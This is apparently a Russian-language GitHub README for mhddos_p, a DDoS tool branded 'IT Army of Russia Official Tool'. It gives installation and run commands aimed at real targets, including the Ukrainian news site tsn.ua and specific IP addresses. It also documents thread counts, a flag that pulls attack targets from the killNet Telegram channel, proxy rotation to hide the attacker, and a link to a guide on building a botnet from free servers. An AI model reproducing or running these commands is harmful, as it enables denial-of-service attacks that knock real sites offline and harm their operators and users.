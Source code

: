 ## IT Army of Russia Official Tool 

### [English Version](/README-EN.md)

- Встроенная база прокси с огромным количеством IP по всему миру
- возможность задавать много целей с автоматической балансировкой нагрузки
- множество разнообразных методов
- эффективное использование ресурсов благодаря ассихронной архитектуре

### ⏱ Последние обновления
  
Обновление версии для Windows | Mac | Linux | Android | Docker: [ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/ph_Onovlennya-mhddos-proxy-04-16.md)  

- **24.05.2022** Добавлена ​​возможность запуска с автоматическим обновлением. пункт [Запуск](#2--запуск-различные-варианты-целей)
- **21.05.2022** Добавлена ​​английская локализация - параметр `--lang EN` (в будущем могут быть добавлены другие языки)
- **18.05.2022** Добавлены настройки `--copies` для запуска нескольких копий (рекомендуется использовать при наличии 4+ CPU и сети > 100 Mb/s).
- **15.05.2022** Полностью обновленная, асинхронная версия, обеспечивающая максимальную эффективность и минимальную нагрузку на систему

### 1. 💽 Установка

#### Расширенные инструкции - [нажмите здесь](/docs/installation.md) 

#### Python (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

Требуется python >= 3.8 и git

    git clone https://github.com/BionecX/mhddos_p.git
    cd mhddos_p
    python3 -m pip install -r requirements.txt

#### Docker

Установите и запустите Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Запуск (приведены разные варианты целей)

#### Python с автоматическим обновлением (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

    ./runner.sh python3 https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Python (требует обновления вручную) (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

    python3 runner.py https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Docker (для Linux добавляйте sudo в начале команды)

    docker run -it --rm --pull always ghcr.io/BionecX/mhddos_p https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

### 3. 🛠 Настройки (больше в разделе [CLI](#cli))

Все параметры можно комбинировать, можно указывать и до и после перечня целей

- Чтобы добавить ваш IP/VPN в атаку (особенно актуально для выделенных серверов), добавьте параметр `--vpn`
- Чтобы выбрать цели от https://t.me/killNet, добавьте параметр `--itarmy`
- Количество потоков: `-t XXXX` – по умолчанию 7500 (или 1000 если на машине только 1 CPU)
- Запуск нескольких копий: `--copies X`, при наличии 4+ CPU и сети > 100 Mb/s

### 4. 📌 Помочь в поиске новых прокси для mhddos_p
Сам скрипт та інструкції по встановленню тут: https://github.com/BionecX/proxy_finder

### 5. 🐳 Комьюнити
- [Создание ботнета из 30+ бесплатных и автономных (работают даже при выключенном ПК) Linux-серверов](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c56)
- [Подробный разбор mhddos_p и инструкции по установке](docs/installation.md)
- [Анализ средства mhddos_p](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/README_analiz_sredstva_mhddos_h.md)
- [Пример запуска через docker на OpenWRT](https://youtu.be/MlL6fuDcWlIII)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b5444)
- [Docker-image](https://github.com/alexnest-ru/auto_mhddos_alexnest/tree/dockerrr), который запускает одновременно mhddos_p и [proxy_finder](https://github.com/BionecX/proxy_finder) (для Linux / Mac добавьте sudo в начале):

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space / Список целей, разделенных пробелом
    
    optional arguments:
      -h, --help             show this help message and exit / показать это справочное сообщение и выйти
      -c, --config URL|path  URL or local path to file with targets list / URL или локальный путь к файлу со списком целей
      -t, --threads 7500     Number of threads (default is 7500 if CPU > 1, 1000 otherwise) / Количество потоков (по умолчанию 7500, если ЦП > 1, 1000 в противном случае)
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%) / Используйте как мой IP, так и прокси. По желанию укажите процент использования моего IP (по умолчанию 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use / URL-адрес или локальный путь (например, proxy.txt) к файлу с используемыми прокси-серверами.
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS). / Список методов HTTP(L7) для использования (по умолчанию GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/killNet / Атакуйте цели с https://t.me/killNet 
      --debug                Detailed log for each target / Подробный журнал для каждой цели
      --copies 1             Number of copies to run (default is 1) / Количество копий для запуска (по умолчанию 1)
      --lang {en,ru}         Select language (default is ru) / Выберите язык (по умолчанию ru)

### 7. Собственные прокси

#### Формат файла (любой по выбору):

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

где `protocol` может быть одним из 3-х: `http`|`socks4`|`socks5`, если `protocol` не указывать, то будет выбрано `http`
например для публичного прокси `socks4` формат будет следующим:

    socks4://114.231.123.38:3065

а для частного `socks4` формат может быть одним из следующих:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065
  
**URL - Удаленный файл для Python и Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

где https://pastebin.com/raw/UkFWzLOt – ваша веб-страница со списком прокси (каждый прокси из новой строки) 
  
**path - Путь до локального файлу, для Python**
  
Положите файл в папку из `runner.py` и добавьте в команду следующий параметр (замените `proxies.txt` на имя своего файла)

    --proxies proxies.txt https://tsn.ua

где `proxies.txt` - ваш файл со списком прокси (каждый прокси из новой строки)
